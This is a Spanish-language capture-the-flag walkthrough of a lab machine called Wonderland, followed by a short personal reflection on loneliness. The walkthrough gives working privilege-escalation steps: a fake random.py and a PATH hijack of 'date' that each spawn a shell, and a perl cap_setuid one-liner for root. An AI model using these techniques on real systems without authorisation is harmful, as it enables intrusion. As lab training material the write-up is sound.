# Wonderland

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado varios puertos abiertos en el sistema: el puerto `22` para `ssh`, el `80` para el puerto `HTTP`.

<figure><figcaption></figcaption></figure>

Al enumerar los directorios, no logramos encontrar nada.

<figure><figcaption></figcaption></figure>

Por lo tanto, debemos examinar más a fondo la web que se nos proporciona.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Como podemos observar, tenemos un directorio `/img/white_rabbit_1.jpg`, así que lo analizamos detenidamente.

<figure><figcaption></figcaption></figure>

Solo disponemos de tres imágenes y, al no tener más salidas, en algún momento consideramos que podrían existir archivos o cadenas ocultas en ellas. Con `binwalk`, podemos obtener una idea de lo que contienen.

```
binwalk 'arv'
```

<figure><figcaption></figcaption></figure>

Como podemos ver, tenemos un archivo en la imagen de `alice`, pero después de varios intentos sin la contraseña, no pudimos recuperar nada. Para descartar las siguientes imágenes, también realizamos pruebas. Sin embargo, con el archivo `white_rabbit_1.jpg`, logramos recuperar un archivo.

<figure><figcaption></figcaption></figure>

Este archivo nos proporciona la frase `follow the r a b b i t`, pero después de un tiempo, no pudimos descifrar su significado. Sin embargo, como en la página principal también se menciona `Follow the White Rabbit`, comenzamos a probar con directorios. No tuvimos suerte hasta que encontramos un directorio durante la enumeración que contenía las palabras del archivo `hint.txt`.

<figure><figcaption></figcaption></figure>

Aunque no encontramos nada interesante en la parte de renderizado de la página, necesitamos investigar más a fondo. Al revisar el código de la página, descubrimos unas credenciales.

<figure><figcaption></figcaption></figure>

Con estas credenciales, logramos acceder al servidor `ssh` y funcionan correctamente.

<figure><figcaption></figcaption></figure>

# \alice

Cuando  hacemos la enumeracion con el comando:

```
sudo -l
```

<figure><figcaption></figcaption></figure>


Podemos observar que tenemos la capacidad de ejecutar un archivo con los permisos de `rabbit`.

```
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Para elevar nuestros privilegios, podemos intentar modificar una librería y ejecutar una `shell` como `rabbit`. Al revisar el archivo, nos damos cuenta de que solo utiliza la librería `random`. Por lo tanto, creamos un archivo llamado `random.py` con el siguiente contenido:

```
import os

os.system("/bin/bash")
```

Y modificamos el `$PATH` de `alice` para que la librería `random` se inicie con nuestro archivo utilizando el siguiente comando:


```
echo $PATH

export PATH=/home/alice:$PATH

echo $PATH
```

Nos tiene que quedar algo asi.

```
/home/alice:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Con esto, solo necesitamos ejecutar el archivo y podremos obtener los permisos de `rabbit`.

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```


<figure><figcaption></figcaption></figure>

# \rabbit


Revisamos el directorio de `rabbit` y encontramos un archivo ejecutable llamado `teaparty`. Lo ejecutamos de inmediato para ver qué resultado nos ofrece.

<figure><figcaption></figcaption></figure>

La siguiente línea nos sugiere que probablemente utiliza una librería `date` para obtener la fecha real del día.

```
Probably by Sun, 21 Sep 2025 22:36:17 +0000
```

Verificamos cambiando nuestro `$PATH` a un archivo que podamos controlar, tal como hicimos anteriormente. Creamos un archivo llamado `date` con las siguientes líneas de código.

```
#!/bin/bash

echo 'hello'
```

Reemplazmos nuestro `PATH`

```
echo $PATH

export PATH=/home/rabbit:$PATH

echo $PATH
```

Ejecutamos el código para verificar si funcionó.

```
./teaParty
```

<figure><figcaption></figcaption></figure>

No ocurrió nada, pero después de un tiempo nos dimos cuenta de que no tenía los permisos necesarios para ejecutarse. Por lo tanto, simplemente concedemos los permisos a nuestro archivo `date`.

```
chmod +x date
```

Con esto, ya debería funcionar.

<figure><figcaption></figcaption></figure>

Solo necesitamos agregar una línea en nuestro archivo `date` para que ejecute una `shell`.

```
echo '/bin/bash' >> date
```

Y ejecutamos nuevamente nuestro archivo.

```
./teaParty
```

<figure><figcaption></figcaption></figure>

# \hatter

Con una enumeración básica, encontramos un archivo llamado `password.txt`, que suponemos contiene la contraseña de `hatter`. Esto nos permite obtener los permisos desde `ssh`, y efectivamente, así es.

<figure><figcaption></figcaption></figure>

Dado que no contamos con `sudo`, enumeramos los archivos `SUID` y las `Capabilities`.

```
find / -type f -perm -04000 -ls 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Aunque no tuvimos suerte con `SUID`, ya que todo parece ser lo habitual, la situación es diferente con las `Capabilities`.

```
getcap -r / 2>/dev/null
```

<figure><figcaption></figcaption></figure>

En la siguiente página puedes ver cómo podemos elevar nuestros privilegios.



En la enumeración de `capabilities`, observamos que tenemos `/usr/bin/perl = cap_setuid+ep`. Podemos buscar información sobre esto en la página anterior, ya que este es el comando que necesitaremos.

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Con esto, obtenemos permisos de `root` en la máquina y encontramos los archivos `user.txt` y `root.txt`, que se encuentran en los directorios `/root` y `/home/alice`, respectivamente.

<figure><figcaption></figcaption></figure>

--------------
>
>*Me gusta estar solo, mas odio sentirme solo.* 
>**~ Franz Kafka** 
>
>Estar solo nunca ha sido un problema; el silencio me gusta. Sin embargo, existe una diferencia sutil y cruel entre disfrutar de mi propia compañía y sentir que a nadie le importaría que estuviera allí. La ausencia de ruido es paz, pero la falta de conexiones es desesperación. 
>
>El cuarto oscuro nunca me asustó; lo que realmente da miedo es pensar que nadie se daría cuenta si desapareciera. A veces finjo estar ocupado, solo para olvidar que nadie se ha percatado de mi presencia.
>
>Miro mensajes antiguos y conversaciones muertas, tratando de recordar que un día alguien deseaba tenerme cerca, pero hoy todo parece distante. Amigos que se convirtieron en recuerdos, el tiempo pasó y con él, los lazos también.
>
>Me gusta estar solo, pero esta situación no es una elección, es simplemente soledad, la cruda soledad golpeando a mi puerta. Es extraño desaparecer sin siquiera irme.
>
><figure><figcaption></figcaption></figure>